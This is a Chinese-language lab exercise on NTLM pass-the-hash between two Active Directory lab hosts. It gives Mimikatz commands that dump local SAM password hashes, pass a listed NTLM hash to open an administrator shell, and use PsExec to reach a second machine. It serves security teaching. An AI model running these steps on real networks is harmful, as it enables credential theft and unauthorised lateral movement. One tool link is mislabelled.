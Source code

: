 # Exercise 2 - NTLM and Pass-the-Hash

## Tools

需要工具(attacker-tools2)

- Mimikatz: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- PSExec: [http://live.sysinternals.com/](https://github.com/gentilkiwi/mimikatz)

## Theory

### NTLM For workgroup

![](2022-06-20-22-35-58.png)

### NTLM Attack

![](2022-06-20-22-33-06.png)

## Exercise

本練習中，我們將針對不同電腦間(ad-00、ad-01)相同本機管理員(administrator)的使用者，實作Pass-the-Hash的攻擊，由於ad-00以及ad-01在安裝時administrator的密碼相同，所以攻擊會成立。

- 使用最高權限打開mimikatz

```powershell
cd C:\attacker-tools
.\mimikatz_trunk\x64\mimikatz.exe
```

使用mimikatz 取得 local user的password hash

```powershell
privilege::debug
token::elevate
lsadump::sam
```

- 使用mimikatz的PTH模組，開啟一個local admin account的shell
    - 預設安裝的administrator

```powershell
sekurlsa::pth /user:Administrator /ntlm:7dfa0531d73101ca080c7379a9bff1c7 /domain:doesnotmatter
```

- 使用psexec連線ad-01

```powershell
cd C:\attacker-tools
.\PsExec64.exe \\ad-01 cmd
```

確認是否成功連線ad-01

```powershell
whoami
hostname
```
